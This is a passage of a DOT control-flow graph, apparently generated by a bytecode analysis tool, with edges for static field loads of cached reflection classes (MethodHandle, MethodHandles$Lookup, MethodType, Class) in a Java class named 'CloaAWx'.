    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"->"store.r r13";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"->"store.r r13";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"->"store.r $r34";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"store.r r13";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"->"store.r r8";
}
